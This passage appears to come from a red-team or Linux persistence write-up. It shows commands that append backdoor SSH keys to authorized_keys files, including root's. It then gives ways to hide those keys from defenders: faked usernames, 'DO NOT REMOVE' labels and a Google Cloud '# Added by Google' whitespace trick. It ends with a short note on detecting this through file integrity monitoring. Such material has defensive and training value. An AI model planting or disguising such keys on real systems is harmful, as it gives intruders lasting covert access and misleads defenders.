 Then the we would want to add our SSH keys in:

*   `/var/www/.ssh/authorized_keys`
*   `/home/user/.ssh/authorized_key`
*   `/root/.ssh/authorized_keys`

Then we can run the following commands
```bash
# create .ssh directory if it does not exist  
mkdir /var/www/.ssh

echo "ssh-ed25519 AA ... " >> /var/www/.ssh/authorized_keys  
echo "ssh-ed25519 AA ... " >> /home/user/.ssh/authorized_keys  
echo "ssh-ed25519 AA ... " >> /root/.ssh/authorized_keys
```

#### 4.2 Some notes on SSH keys in authorized_keys

First, to make it a bit more confusing for the defenders, when adding an SSH key copy the usernames in the other SSH keys.

```
ssh-ed25519 AAAAC3NzaC1lZDI1NTg3f2vasdcascTcwuq8CVppeNDQv85MQ3fsdsa592q86W1 paul@LP-291221  
ssh-ed25519 AAAAC3NzaC1lZDascacasbI1NTE5AAAAIB7q5ZK6GMNO6lTd90yutRohmGPugoCruTL paul@LP-291221
```
The “email address” in SSH keys are simply comments that can be changed to anything. This is much better than having `kali` in your backdoor SSH keys.

Next, you can add comments to the SSH keys such as

```
# DO NOT REMOVE  
ssh-ed25519 AAAAC3NzaC1lZDI1NTg3f2vasdcascTcwuq8CVppeNDQv85MQ3fsdsa592q86W1 security-team  
ssh-ed25519 AAAAC3NzaC1lZDascacasbI1NTE5AAAAIB7q5ZK6GMNO6lTd90yutRohmGPugoCruTL paul@LP-291221
```

This might be useful for environments such as Google Cloud Platform.

By default, SSH keys are set project wide and added to all instances in the project with the comment `# Added by Google` . These SSH keys are “managed” and _should_ be automatically removed when the SSH key is deleted in the project. However, I’ve found that when we add a few whitespaces at the end, the SSH keys are not removed even if they are not found in the project-wide metadata server.

So we add our SSH key and add `# Added by Google      `

```
# Added by Google        
ssh-ed25519 AAAAC3NzaC1lZDI1NTg3f2vasdcascTcwuq8CVppeNDQv85MQ3fsdsa592q86W1 security-team  
# Added by Google  
ssh-ed25519 AAAAC3NzaC1lZDascacasbI1NTE5AAAAIB7q5ZK6GMNO6lTd90yutRohmGPugoCruTL paul@LP-291221
```

This makes these SSH keys more likely to be overlooked by defenders.

#### 4.3 Detection: File Integrity Monitoring

By default auditbeat does not monitor these files. You have to know the users of the machine beforehand to be able to monitor the `.ssh` folder of each user
